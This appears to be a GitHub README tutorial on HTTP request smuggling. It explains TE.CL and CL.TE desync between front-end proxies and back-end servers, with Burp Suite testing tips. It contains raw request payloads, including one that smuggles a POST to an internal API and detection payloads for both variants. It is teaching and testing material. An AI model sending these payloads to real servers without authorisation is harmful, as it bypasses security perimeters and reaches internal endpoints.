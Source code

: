 # HTTPRequestSmuggling
ELI5/ Deep Dive - HTTTP Request Smuggling


## TL;DR - What is it?
Read: https://portswigger.net/web-security/request-smuggling

### Why write this article?
IMO, the explanation given on portswigger, while good, glosses over some details, as well as encourages the use of the HTTPRequestSmuggling extension in Burp, which does not help in the understanding of the nature of this vulnerability.

## Lets dive!

#### So why exactly is this dangerous from a security perspective?

Most modern web application infrastructure consists of one or many load balancers/WAFs, which sit in front of actual application servers. Typically, the trust model for these is that traffic to the load balancer from the outside internet is seen as unsafe, but traffic from the load balancer to the application server or from the application server itself is safer as it has made it past the load balancer security controls.

Consider this: In the below diagram, we see some sort of WAF/Load Balancer that sits in front of several API gateways. If the infrstructure is such that the assumption is that illegitemate/unsafe traffic is prevented from hitting the API's via the WAF, then smuggling requests past the WAF enable us to send requests to API endpoints that we were not allowed to send requests from outside the security perimeter.

![Alt text](images/application.png "Application")

## Example
The following POST request is an example of smuggling a POST request to an internal API named `secure-API` In this case, we are dealing with the load balancer accepting the `Transfer-Encoding` header, and the API accepting the `Content-Length` this is called a `TE.CL` attack.

```
POST / HTTP/1.1
Host: test.mysite.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:72.0) Gecko/20100101 Firefox/72.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://somesite.net
DNT: 1
Connection: close
Cookie: session=F9Rf9fqjQ37lLSBDd3EHEpehDygMs75i
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 3
Transfer-Encoding: chunked

68
POST /secure-API HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 20

foo=ba
0


```
Sending this request twice will have the intended affect of POST'ing `foo=bar` to the `secure-API` resource.

### Why does this work?
1. The first evaluation is by the load balancer that supports the `Transfer-Encoding` header, it observes that the length of the body of the request should be 104 chars long, <b> the `Transfer-Encoding` length is specified in Hex hence `68` </b> which is the decimal equivalent of 104. Thus the first chunk ends at the beginning of the line that contains 0 <b>(remember each newline also counts as a byte!)</b>b. The second chunk is processed as 0 which is read as the end of the request
2. The request is forwarded to a server that then supports `Content-Length` which sees that the request body should only be 3 bytes long, however what isn't shown to us is that after each line of text in the body of the request, there is a `\r\n` which counts for 2 bytes ([Read more on that here](https://en.wikipedia.org/wiki/List_of_HTTP_header_fields))

Given that each line is delimited with `\r\n` and given 3 bytes to work with, the server reads up to the end of `68\r`

The remaining 

```
\n
POST /secure-API HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 20

foo=ba
0
```
Is left on the server and will prepend any incoming request!
<b>PLEASE NOTE:</b> The `\n` character is not typically shown in the body of requests but has been shown ehre for illistration purposes


### Enumeration
* The following are some tips and tricks for finding this vulnerability given a CL.TE, TE.CL, and TE.TE 
* Assuming you are using Burp Suite as a proxy for your requests

#### CL.TE
* Front end: `Content-Length` 
* Back end: `Transfer-Encoding`

<b>Sample payload to test for this vulnerability:</b>

```
POST / HTTP/1.1
Host: testsite.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:72.0) Gecko/20100101 Firefox/72.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: testsite.net
DNT: 1
Connection: close
Cookie: session=QMTalM9bAXDIzKysRmDNfI8VyGbvcBcl
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 9
Transfer-Encoding: chunked

0

GGGG
```
<b> Things to remember for CL.TE</b>
* In Burp MAKE SURE that `Update Content Length` is checked in the repeater menu, this is the opposite for a TE.CL vulnerability
* Make sure that the request ends AS IS, this is also opposite a TE.CL vulnerability where you want to add two returns at the end of the request.

<b>What to look for</b>
The payload `GGGG` Should be left on the server and will prepend incoming requests, so the server should respond after the second request with a 400 error and a message like `"Unrecognized method GGGGPOST"`

#### TE.CL

* Front end: `Transfer-Encoding` 
* Back end: `Content-Length`

<b>Sample payload to test for this vulnerability:</b>

```
POST / HTTP/1.1
Host: test.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:72.0) Gecko/20100101 Firefox/72.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: test.site
DNT: 1
Connection: close
Cookie: session=x9ptL2cydDdz9hu8XYCTeVhJruYH5Ehu
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

5e
POST /404 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0


```
<b> Things to remember for TE.CL</b>
* Notice that below 0 in the second POST request there are 2 newlines, which are interpreted as the 2 Carriage Return-Line Feeds required to terminate an HTTP request, if you are testing in Burp you need to add those MANUALLY by hitting Enter twice.
* Make sure that the `Update Content-Length` option is unchecked in the repeater menu

<b>What to look for:</b> Since this test payload POST's to `/404` the first request to the server should return a `200 OK` and the second request should return a ` 404 not found` 


